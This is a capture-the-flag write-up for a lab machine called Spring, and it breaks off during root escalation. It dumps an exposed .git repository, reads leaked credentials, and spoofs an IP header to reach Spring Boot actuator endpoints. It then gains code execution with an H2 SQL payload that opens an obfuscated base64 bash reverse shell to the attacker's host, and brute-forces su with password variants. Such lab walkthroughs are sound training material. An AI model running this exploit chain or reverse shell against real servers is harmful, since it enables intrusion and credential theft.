










## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache tomcat server and port `443` with apache tomcat server.
 
```bash
PORT    STATE SERVICE  REASON         VERSION                                                                                                                                                                                               
22/tcp  open  ssh      syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                                                          
| ssh-hostkey:                                                                                                                                                                                                                              
|   2048 89:a8:db:e1:3d:ab:0e:ea:da:d8:8d:a7:bc:56:fc:da (RSA)                                                                                                                                                                              
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDkWUX1Iu6jL3N1WP92UdaN4jhRsLDq7xlu2eqnHo4eXkI1Mc+ubor0+QuVTMpxKlquX30O8tMJNimPLkK1QZoLZyt/w2hf1e6M+1dWGH9emax4GfCBDeYbjdHHvbcamgtFa3BsMznS4yPfHKnvTuSPyArvNFrkQdWlfFcSew+eyWVPoNcU2p2Y/iO5F3sQI803V
6g19YehlCpR+dKZw/lTG7ph+q0L8S0/jpu2hOP8yHP6Q9LgmvEE/UyE7IWRlrbIEE3NBcQh0Be8O1nDbo3xUNHKBWE9yz1f5tNBxiTsbos+K+XO2W/gQ8B658HKfWyGqZ4+aFpL082PHEG5BZp                                                                                          
|   256 7d:b2:aa:19:18:31:6c:62:18:7b:3b:96:11:02:54:9d (ECDSA)                                                                                                                                                                             
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAWPQA78qegYb2UcBvSVKufB0HNVLiM/DdwIbnyNnqV7PTrsGbtodnAc7EUBx+XW1SIL2uoh8VWVzMCrBqHtT/w=                                                                          
|   256 26:32:b9:96:69:a8:cb:14:b4:8c:e8:f0:d5:74:bd:6e (ED25519)                                                                                                                                                                           
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDFfMnhSsA9B0Dvrro7nhnGU54D5ho9fsAHmbTH1fErE                                                                                                                                                          
80/tcp  open  http     syn-ack ttl 62 Apache Tomcat (language: en)                                                                                                                                                                          
| http-methods:                                                                                                                                                                                                                             
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                                
|_http-title: Did not follow redirect to https://spring.thm/                                                                                                                                                                                
443/tcp open  ssl/http syn-ack ttl 62 Apache Tomcat (language: en)                                                                               
| http-methods:                                                                                                                                  
|   Supported Methods: GET HEAD POST PUT PATCH DELETE OPTIONS                                                                                    
|_  Potentially risky methods: PUT PATCH DELETE                                                                                                  
|_ssl-date: 2025-12-12T11:15:49+00:00; 0s from scanner time.                                                                                     
| ssl-cert: Subject: commonName=John Smith/organizationName=spring.thm/stateOrProvinceName=Unknown/countryName=Unknown/organizationalUnitName=Unknown/localityName=Unknown                                                                  
| Issuer: commonName=John Smith/organizationName=spring.thm/stateOrProvinceName=Unknown/countryName=Unknown/organizationalUnitName=Unknown/localityName=Unknown                                                                             
| Public Key type: rsa                                                                                                                           
| Public Key bits: 2048                                                                                                                          
| Signature Algorithm: sha256WithRSAEncryption                                                                                                   
| Not valid before: 2020-07-04T15:33:44                                                                                                          
| Not valid after:  2294-04-18T15:33:44                                                                                                          
| MD5:   a6f0:a22d:1205:d435:c8c8:1386:7ec6:ff0f                                                                                                 
| SHA-1: ffd2:e131:49da:7a1c:122a:b514:6f39:58fe:39ae:5e8d                                                                                       
| -----BEGIN CERTIFICATE-----                                                                                                                    
| MIIDhTCCAm2gAwIBAgIEFZhOtTANBgkqhkiG9w0BAQsFADByMRAwDgYDVQQGEwdV                                                                               
| bmtub3duMRAwDgYDVQQIEwdVbmtub3duMRAwDgYDVQQHEwdVbmtub3duMRMwEQYD                                                                               
| VQQKEwpzcHJpbmcudGhtMRAwDgYDVQQLEwdVbmtub3duMRMwEQYDVQQDEwpKb2hu                                                                               
| IFNtaXRoMCAXDTIwMDcwNDE1MzM0NFoYDzIyOTQwNDE4MTUzMzQ0WjByMRAwDgYD                                                                               
| VQQGEwdVbmtub3duMRAwDgYDVQQIEwdVbmtub3duMRAwDgYDVQQHEwdVbmtub3du                                                                               
| MRMwEQYDVQQKEwpzcHJpbmcudGhtMRAwDgYDVQQLEwdVbmtub3duMRMwEQYDVQQD                                                                               
| EwpKb2huIFNtaXRoMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAsrU+                                                                               
| 71WOhrycHykzPMaorDWovDtPs80c2lOO7EJQK5dlDw5QkHuBXLJYENDBjdDOOHrE                                                                               
| DEPVv0FO1vKVY9an+qZPcZJiAMO6lmruj0YhwYymz9GB5z/dSwRFnj1h7J923wyy                                                                               
| CYSOKp2SL1vegL+AHC7SY/M9bwrhT7J6hrJGaYMmVIzjvRHyxQza/kpTQWNdTrTy                                                                               
| H/bcnn9nKhjIGRNemNLtmwI2aq6Le3aS+lcWA3kQl4I2v4n5Qg7UZ73FCB09zGdN      
| I4h4L5b93e57AjBZAEIP6blxRktZwKgh0t76eh3TenH2sg0iNU51EAXcKxQa14wb      
| dqCqle4ERV1r2jpSIQIDAQABoyEwHzAdBgNVHQ4EFgQU4SVvpFm/Kvg8OJzTMYd5      
| wjH7rAswDQYJKoZIhvcNAQELBQADggEBAEQTg9rhNpRJYyxcGzc3JCFlghtM+ab0      
| JbnGZqU62i6/7KExZgCt7k+p05qRZyvdwjh0ykrYrmQtPLJbcVrJ8lh0vfij4BMu      
| 3fFknTn2CEOxqdfobMEoH5r05s9osmo69bffFM4Pe2UcxH2oo8OdemlSnj2nB8Wi      
| 2VgkrfmZcghRs080wK0rohSm1FnQTiX9umVGvhWRTRITO467uEsCIH5NE8vY45jr                                                                                           
| ZPRr9D9bHqbJxBoa+c9F4S8F4E8VR4ruG41Y5DWHpamqEa/ahbhXktSpt2397VBW
| n00+yWQlx2D9TWW5oLgT3R8PB94xVITGNPajHXYy9pqM50t+8fcmvwQ=              
|_-----END CERTIFICATE-----                                             
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).     
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ...

I used `ffuf`, with recursion flag, and found there is `.git` available:
```bash
┌──(agonen㉿kali)-[~/thm/Spring]                                                                                                            13:30:16 [41/160]
└─$ ffuf -u "https://spring.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -recursion                                                     
                                                                                                                                                             
        /'___\  /'___\           /'___\                                                                                                                      
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                      
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                     
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                     
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                      
          \/_/    \/_/   \/___/    \/_/                                                                                                                      
                                                                                                                                                             
       v2.1.0-dev                                                                                                                                            
________________________________________________                                                                                                             
                                                                                                                                                             
 :: Method           : GET                                                                                                                                   
 :: URL              : https://spring.thm/FUZZ                                                                                                               
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt                                                                            
 :: Follow redirects : false                                                                                                                                 
 :: Calibration      : false                                                                                                                                 
 :: Timeout          : 10                                                                                                                                    
 :: Threads          : 40                                                                                                                                    
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                  
________________________________________________                                                                                                             
                                                                                                                                                             
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 395ms]                                                                          
render/https://www.google.com [Status: 500, Size: 455, Words: 34, Lines: 1, Duration: 349ms]                                                                 
sources                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 359ms]                                                                          
[INFO] Adding a new job to the queue: https://spring.thm/sources/FUZZ                                                                                        
                                                                                                                                                             
[INFO] Starting queued job on target: https://spring.thm/sources/FUZZ                                                                                        
                                                                                                                                                             
new                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 296ms]                                                                          
[INFO] Adding a new job to the queue: https://spring.thm/sources/new/FUZZ                                                                                    
                                                                                                                                                             
[INFO] Starting queued job on target: https://spring.thm/sources/new/FUZZ                                                                                    
                                                                                                                                                             
.git                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 386ms]                                                                          
[INFO] Adding a new job to the queue: https://spring.thm/sources/new/.git/FUZZ                                                                               
                                                                                                                                                             
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 489ms]
```



I installed `git-dumper`:
```bash
pipx install git-dumper
```

now we can dump the git repository:
```bash
git-dumper https://spring.thm/sources/new/.git dumped_git
```



okay, I initialized the git repo
```bash
git init .
```

now we can find interesting files:

First, I found the main java source code, `Application.java`:
```java
package com.onurshin.spring;                                                                                                                                 
                                                                                                                                                             
import org.apache.catalina.Context;                                                                                                                          
import org.apache.catalina.Wrapper;                                                                                                                          
import org.apache.catalina.connector.Connector;                                                                                                              
import org.apache.catalina.startup.Tomcat;                                                                                                                   
import org.apache.tomcat.util.descriptor.web.SecurityCollection;                                                                                             
import org.apache.tomcat.util.descriptor.web.SecurityConstraint;                                                                                             
import org.springframework.boot.SpringApplication;                                                                                                           
import org.springframework.boot.autoconfigure.SpringBootApplication;                                                                                                                                              
import org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration;                                                                                                   
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;                                                                                                           
import org.springframework.boot.web.embedded.tomcat.TomcatWebServer;                                                                                                                         
import org.springframework.boot.web.servlet.server.ServletWebServerFactory;   
import org.springframework.context.annotation.Bean;                                                                                                          
import org.springframework.context.annotation.Configuration;                                                                                                                                                      
import org.springframework.security.config.annotation.web.builders.HttpSecurity;                                                                                                             
import org.springframework.security.config.annotation.web.configuration.EnableWebSecurity;                                                                                                   
import org.springframework.security.config.annotation.web.configuration.WebSecurityConfigurerAdapter;                                                                                        
import org.springframework.web.bind.annotation.RequestMapping;                                                                                                                                                                              
import org.springframework.web.bind.annotation.RequestParam;                  
import org.springframework.web.bind.annotation.RestController;                                
                                                                                                                                                                                                                                                                              
@SpringBootApplication(exclude = {ErrorMvcAutoConfiguration.class})                                                                                                                                                                                                           
public class Application {                                                                                            
                                                                                                                                                                                                                                            
    public static void main(String[] args) {                                                             
        SpringApplication.run(Application.class, args);                                       
    }                                                                                                                 
                                                                                                                                                                                                                                                                              
    @RestController                                                                           
    //https://spring.io/guides/gs/rest-service/                               
    static class HelloWorldController {                                                                                                                      
        @RequestMapping("/")                                                                                                                                                                 
        public String hello(@RequestParam(value = "name", defaultValue = "World") String name) {                                                                                             
            System.out.println(name);                                                                                                                                                        
            return String.format("Hello, %s!", name);                                         
        }                                                                                                
    }                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                              
                                                                                              
    private Connector redirectConnector() {                                                                                            
        Connector connector = new Connector("org.apache.coyote.http11.Http11NioProtocol");                                                                                                   
        connector.setScheme("http");                                                                                                   
        connector.setPort(80);                                                                                                         
        connector.setSecure(false);                                                                      
        connector.setRedirectPort(443);                                                                                                                      
        return connector;                                                                                             
    }                                                                                                                                                                                                                                       
                                                                                                                      
    @Bean                                                                                                                              
    public ServletWebServerFactory servletContainer() {                                                                                
        TomcatServletWebServerFactory factory = new TomcatServletWebServerFactory() {                                                                                                                                                                                         
            @Override                                                                                                                  
            protected void postProcessContext(Context context) {     
                SecurityConstraint securityConstraint = new SecurityConstraint();                                                                                                            
                securityConstraint.setUserConstraint("CONFIDENTIAL");                                                                  
                SecurityCollection collection = new SecurityCollection();
                collection.addPattern("/*");                        
                securityConstraint.addCollection(collection);                                                                          
                context.addConstraint(securityConstraint);          
                context.setUseHttpOnly(true);                                                                                          
            }                                                                                                                                                                                                                                                                 
                                                                                                                                       
            @Override                                              
            protected TomcatWebServer getTomcatWebServer(Tomcat tomcat) {     
                Context context = tomcat.addContext("/sources", "/opt/spring/sources/");                                                                                                     
                context.setParentClassLoader(getClass().getClassLoader());                    
                context.setUseHttpOnly(true);                                 
                                                                                                                                       
                Wrapper defaultServlet = context.createWrapper();                             
                defaultServlet.setName("default");                            
                defaultServlet.setServletClass("org.apache.catalina.servlets.DefaultServlet");                                                                                               
                defaultServlet.addInitParameter("debug", "0");                
                defaultServlet.addInitParameter("listings", "false");
                defaultServlet.setLoadOnStartup(1);                                                                                                          
                defaultServlet.setOverridable(true);
                context.addChild(defaultServlet);                             
                context.addServletMappingDecoded("/", "default");                             
                                                                              
                return super.getTomcatWebServer(tomcat);                      
            }                                                                                 
        };                                                                    
        factory.addAdditionalTomcatConnectors(redirectConnector());           
        return factory;                                                                       
    }                                                                                         

    @Configuration                                                                            
    @EnableWebSecurity                                                                        
    static class SecurityConfig extends WebSecurityConfigurerAdapter {                        

        @Override                                                                             
        protected void configure(HttpSecurity http) throws Exception {                        
            http                                                                              
                    .authorizeRequests()                                                      
                    .antMatchers("/actuator**/**").hasIpAddress("172.16.0.0/24")                                                                                                             
                    .and().csrf().disable();                                                  
        }                                                                                     

    }                                                                                         
} 
```

This snippet checks whether we're coming from specific subnet:
```java
@Configuration                                                                            
    @EnableWebSecurity                                                                        
    static class SecurityConfig extends WebSecurityConfigurerAdapter {                        

        @Override                                                                             
        protected void configure(HttpSecurity http) throws Exception {                        
            http                                                                              
                    .authorizeRequests()                                                      
                    .antMatchers("/actuator**/**").hasIpAddress("172.16.0.0/24")                                                                                                             
                    .and().csrf().disable();                                                  
        }                                                                                     

    }  
```

Then, I found this `application.properties`.
```bash
┌──(agonen㉿kali)-[~/…/dumped_git/src/main/resources]
└─$ cat application.properties           
server.port=443
server.ssl.key-store=classpath:dummycert.p12
server.ssl.key-store-password=DummyKeystorePassword123.
server.ssl.keyStoreType=PKCS12
management.endpoints.enabled-by-default=true
management.endpoints.web.exposure.include=health,env,beans,shutdown,mappings,restart
management.endpoint.env.keys-to-sanitize=
server.forward-headers-strategy=native
server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04
server.error.whitelabel.enabled=false
spring.autoconfigure.exclude=org.springframework.boot.autoconfigure.web.servlet.error.ErrorMvcAutoConfiguration
server.servlet.register-default-servlet=true
spring.mvc.ignore-default-model-on-redirect=true
spring.security.user.name=johnsmith
spring.security.user.password=PrettyS3cureSpringPassword123.
debug=false
spring.cloud.config.uri=
spring.cloud.config.allow-override=true
management.endpoint.heapdump.enabled=false
spring.resources.static-locations=classpath:/META-INF/resources/, classpath:/resources/, classpath:/static/, classpath:/public/
```

This two specific lines are the most interesting:
```bash
management.endpoints.web.exposure.include=health,env,beans,shutdown,mappings,restart
server.tomcat.remoteip.remote-ip-header=x-9ad42dea0356cb04
```

Okay, the header we're gonna use to access the endpoints is:
```bash
x-9ad42dea0356cb04: 172.16.0.5
```

For example, getting `/actuator/env`:



Now, we can use this way to get RCE [https://github.com/LandGrey/SpringBootVulExploit#0x0crestart-springdatasourcedata-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit#0x0crestart-springdatasourcedata-h2-database-rce).

First, send this command:
```bash
POST /actuator/env HTTP/1.1
Host: spring.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-9ad42dea0356cb04: 172.16.0.5
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Type: application/json
Content-Length: 101

{
    "name": "spring.datasource.data",
    "value": "http://192.168.164.248:8081/payload.sql"
}
```

Then, create payload.sql on your local machine and setup simple http server:
```bash
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash');
```

Next, just send the restart command, and the shell will come:
```bash
POST /actuator/restart HTTP/1.1
Host: spring.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-9ad42dea0356cb04: 172.16.0.5
Priority: u=0, i
Te: trailers
Connection: keep-alive
```



and we got our first flag:
```bash
nobody@spring:/opt$ cat foothold.txt 
THM{dont_expose_.git_to_internet}
```

### ...

Inside `env` we can find the password `PrettyS3cureKeystorePassword123.`.
In addition, we got the password `PrettyS3cureSpringPassword123.`. I asked ChatGPT to give me list of other possible passwords, he gave me this list:

```bash
PrettyS3cureKeyPassword123.
PrettyS3cureLoginPassword123.
PrettyS3cureTokenPassword123.
PrettyS3cureAccessPassword123.
PrettyS3cureSecurePassword123.
PrettyS3cureLoginKeyPassword123.
PrettyS3cureSessionPassword123.
PrettyS3cureIDPassword123.
PrettyS3cureLoginCodePassword123.
PrettyS3curePasscodePassword123.
PrettyS3cureAccountPassword123.
PrettyS3cureCredentialPassword123.
PrettyS3cureEntryPassword123.
PrettyS3cureAuthPassword123.
PrettyS3cureUnlockPassword123.
PrettyS3cureUserPassword123.
PrettyS3cureSecureKeyPassword123.
PrettyS3cureAccessCodePassword123.
PrettyS3curePasswordKey123.
PrettyS3curePINPassword123.
PrettyS3curePassphrase123.
PrettyS3cureSecretPassword123.
PrettyS3cureAppKeyPassword123.
PrettyS3cureAuthKeyPassword123.
PrettyS3cureUserKeyPassword123.
PrettyS3cureSafeKeyPassword123.
PrettyS3cureLoginPassPassword123.
PrettyS3cureSessionKeyPassword123.
PrettyS3cureTokenKeyPassword123.
PrettyS3cureAccountKeyPassword123.
```

we'll use the repo [https://github.com/carlospolop/su-bruteforce](https://github.com/carlospolop/su-bruteforce) which gives us brute force `su` bash script.

```bash
./suBF.sh -u johnsmith -w possible_passwords.txt
```

we can find the password `PrettyS3cureAccountPassword123.`



and the user flag is:
```bash
johnsmith@spring:~$ cat user.txt 
THM{this_is_still_password_reuse}
```

### Privilege Escalation to Root

I've found the `spring` service:
```bash
johnsmith@spring:/$ systemctl | grep spring
spring.service                                                          loaded active running   Spring Boot Application                                                      
johnsmith@spring:/$ systemctl cat spring.service
# /etc/systemd/system/spring.service
[Unit]
Description=Spring Boot Application
After=syslog.target
StartLimitIntervalSec=0

[Service]
User=root
Restart=always
RestartSec=1
ExecStart=/root/start_tomcat.sh

[Install]
WantedBy=multi-user.target
```

we can see it executes `/root/start_tomcat.sh`, which we can't access.



I checked the status of the service:
```bash
johnsmith@spring:/$ systemctl status spring.service
● spring.service - Spring Boot Application
   Loaded: loaded (/etc/systemd/system/spring.service; enabled; vendor preset: enabled)
   Active: active (running) since Mon 2025-12-15 11:26:36 UTC; 6min ago
 Main PID: 843
    Tasks: 3 (limit: 479)
   CGroup: /system.slice/spring.service
